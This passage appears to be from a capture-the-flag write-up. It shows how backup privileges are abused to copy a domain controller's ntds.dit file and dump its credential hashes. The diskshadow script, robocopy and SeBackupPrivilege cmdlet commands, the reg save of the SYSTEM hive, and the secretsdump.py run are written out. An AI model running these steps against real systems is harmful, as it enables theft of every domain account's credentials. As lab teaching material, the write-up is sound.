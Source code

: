 ```powershell
```
The ``ntds.dit`` file is present in the ``C:\Windows\ntds`` folder.  Unfortunately, the ntds.dit file is locked for use by the system and can't be copied directly. Files and folders can be backed up using the /B switch of ``robocopy``.
```bash
C:\> robocopy /B C:\Windows\ntds\ .\ntds   

The process cannot access the file because it is being used by another process.
```
Windows provides a feature known as Volume Shadow Copy to address this kind of problem. A shadow copy is a read-only snapshot of the disk that permits files to be accessed even if they're in use. Usually, creating a shadow copy requires administrative privileges, and many utilities do perform this check. 
**However the ``diskshadow`` utility will allow us to perform this action with just the SeBackup and SeRestore privileges.**
The following script can create a shadow copy of the C: , exposed as X: .
```powershell
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
add volume c: alias caretaker
create
expose %caretaker% x:
exec "C:\Windows\System32\cmd.exe" /C copy x:\windows\ntds\ntds.dit c:\temp\ntds.dit
```
We need to convert the script to Windows format, as diskshadow expects DOS style CRLF line terminators. This can be done using the unix2dos command.
```bash	
unix2dos disk-shadow-script.txt
```
or you can just add a random char as CRLF at end of each line.
Then you can load this script in ``diskshadow``:
```powershell
diskshadow /s disk-shadow-script.txt
```
Script shows error because last line tries to copy ``ntds.dit`` manually, which we know isnt possible. 
![diskshadow-error](/assets/img/Posts/Blackfield/diskshadow-error.png)
We can now use ``robocopy`` to backup the X:\Windows\ntds\ntds.dit file.
```powershell
robocopy /B X:\Windows\ntds\ .\ntds
```
 OR 
you can use [https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) instead of robocopy after you make ``x:`` share with diskshadow, robocopy copies the whole folder, with SeBackupPrivilegeCmdLets you can copy individual files.
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege x:\windows\NTDS\ntds.dit Z:\ntds.dit
reg save HKLM\System System.hive
```
Then you can easily use `secretsdump.py` from impacket to dump those stored hashes:
```bash
$ secretsdump.py -system System.hive -ntds ntds.dit LOCAL
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
```